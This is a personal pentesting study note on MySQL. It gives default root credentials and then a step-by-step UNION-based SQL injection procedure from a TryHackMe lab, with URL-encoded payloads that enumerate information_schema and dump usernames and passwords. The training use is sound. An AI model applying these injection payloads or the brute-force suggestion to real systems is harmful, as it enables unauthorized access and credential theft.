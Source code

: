 # MySQL

## collection of facts

### default credentials
```
root : NOPASSWORD 		; if within rules of engagement try bruteforcing this
PORT : 3306
```


## injection - SQLi

### general concepts

User input is improperly handled, resulting in the SQL service interpreting unintended code. This can result in the SQL service interpreting arbitrary statements crafted by an attacker. 

Possible outcomes are

- complete disclosure of database contents
- some injection allows for revision of existing entires; update statements
- additions of new entires is also possible
- authentication bypass
- escalation of privilege (authenticate as high priv user)


### techniques

#### dealing with single line output

When using `group_concat()` to dump multiple lines at once, the funciton goes directly after `SELECT`. E.g.
```sql
SELECT group_concat( table1,table2,table3, ... ) FROM TABLE_NAME
```

### procedures

> development of these procedure sheets and surround information are intended to facilitate my mastery of the topics. 


#### enumerate SQL database via UNION injection

The following methodology was developed while participating in TryHackMe's Advent of Cyber 2022. The challenge room for Day 16 provided a friendly target to practice enumerating a `MySQL` database, ultimatly resulting in the weaponization of a SQL injection vulnerabliity. 


##### reverse engineer the hard coded SQL statement

We need to determine the number of columns in the SQL statement. To do this, we use a valid query that returns data. We then perform a `UNION` with increasingly more integers or `NULL`s. A mismatch in number of columns in the statement and number of `NULL`s provided yields no data or an error. A match in the two counts results in the expected return of the initial valid statement.

```txt
/webapp/elf.php?id=1%20union%20all%20select%201,2,3,4,5,6,7
```

> union all is identical to union, however it includes all duplicates.

We can now  invalidate our original query, but allow the `1,2,3,...` to persist. This displays which columns of the backend statement are being returned as outputs. For this particular lab, `3,4` are returned.   

```txt
/webapp/elf.php?id=-1%20union%20all%20select%201,2,3,4,5,6,7
```

We can now enumerate the databases conected to the service by enumerating the meta-tables.


##### enumerate databases and associated tables connected to the service

We can enumerate the databases attached to the service by performing queries on the `information_schema` meta-table. This table is guaranteed to be available in the `MySQL` database, it is necessary for functionality. 

The following statement was created by consulting the official `MySQL` documentation on the `information_schema` table.

```txt
/webapp/elf.php?id=-1%20union%20all%20select%201,2,table_schema,table_name,5,6,7%20from%20information_schema.tables%20where%20table_schema%20not%20like%20%27%schema%%27
```

- `information_schema.tables` contains rows of information on all tables attached to the service
- `table_schema` is the name of a database that is attached to the service
- `table_name` is the name of a given table
- a row with columns `table_schema` and `table_name` describes the mapping between tables and databases
- our final clause `WHERE table_schema NOT LIKE '%schema%'` is a luxury for the attacker. We are using it to supress all the meta-tables associated with the service.


##### enumerate columns present in a discovered table

Armed with information on which tables are associated with which databases, we can create targeted queries to harvest high value information. If sensitive information is inside the database we can yank all of it. For defenders, a `UNION` SQuLi injection attack is nearly the worst case scenario. The only thing worse would be an `UPDATE` vulnerability, potentially resulting in a mass destruction event. 

Not shown here, from enumerating databasesand tables, we now have knowledge of a table called `users` from the `logistics` database. Once again we use the meta-tables to get information about what columns exist in the `users` table. We query the `information_schema.columns` table in the following way

```txt
/webapp/elf.php?id=-1%20union%20all%20select%201,2,column_name,table_name,5,6,7%20from%20information_schema.columns%20where%20table_schema%20like%20%27%logistics%%27%20and%20table_name%20like%20%27%users%%27
```

- `information_schema.columns` contains all column information of databases associated to the service
- `column_name` is the name of a column
- `table_name` is the name of the table\
- a row with columns `column_name` and `table_name` describes the mapping between columns and tables. We now know which columns belong to the `users` table, our high value target
- our final clause `WHERE table_schema LIKE 'logistics' AND table_name LIKE 'users'` specifies that we are only interested in the rows associated with the `users` table from the `logistics` database. 
- the `AND table_name LIKE 'users'` section can be removed to see all table-column mappings of the `logistics` database

##### target aquired,  finalize weaponization of the exploit

The previous enumerations revealed that

- the `logistics` database is attached to the service
- the `logistics` database has a table called `users`
- the `users` table has columns `username,password` amoung some other valuable fields
- arbitrary `UNION` statements are possible, resulting in extraction of any and all data from the `logistics` database

The final query:

```txt
/webapp/elf.php?id=-1%20union%20all%20select%201,2,username,password,5,6,7%20from%20users
```

- dumps username password mappings stored in the `logisitcs` database
- `logistics` database is not explicitly listed. Only one database was attached to this service, so it defaults to `logistics`

> the SQLi vulnerability has been weaponized and delivered over the network. You can now move on to exploitation of the compromised target


##### references for development of this procedure

> the following links are replicated in the "external sources" section at the bottom of this page

- [MySQL | information_schema reference](https://dev.mysql.com/doc/refman/8.0/en/information-schema-general-table-reference.html)
- [MySQL | information_schema.tables table ](https://dev.mysql.com/doc/refman/8.0/en/information-schema-tables-table.html)
- [MySQL | information_schema.columns table](https://dev.mysql.com/doc/refman/8.0/en/information-schema-columns-table.html)
- [MySQL | NOT operator](https://www.techonthenet.com/mysql/not.php)
- [MySQL | LIKE operator](https://www.w3schools.com/mysql/mysql_like.asp)
- [Understanding How Prepared Statements Prevent SQLi](https://cheatsheetseries.owasp.org/cheatsheets/SQL_Injection_Prevention_Cheat_Sheet.html)



### external sources

- [pentestmonkey SQLi cheatsheet](https://pentestmonkey.net/cheat-sheet/sql-injection/mysql-sql-injection-cheat-sheet)
- [MySQL | information_schema reference](https://dev.mysql.com/doc/refman/8.0/en/information-schema-general-table-reference.html)
- [MySQL | information_schema.tables table ](https://dev.mysql.com/doc/refman/8.0/en/information-schema-tables-table.html)
- [MySQL | information_schema.columns table](https://dev.mysql.com/doc/refman/8.0/en/information-schema-columns-table.html)
- [MySQL | NOT operator](https://www.techonthenet.com/mysql/not.php)
- [MySQL | LIKE operator](https://www.w3schools.com/mysql/mysql_like.asp)
- [Understanding How Prepared Statements Prevent SQLi](https://cheatsheetseries.owasp.org/cheatsheets/SQL_Injection_Prevention_Cheat_Sheet.html)

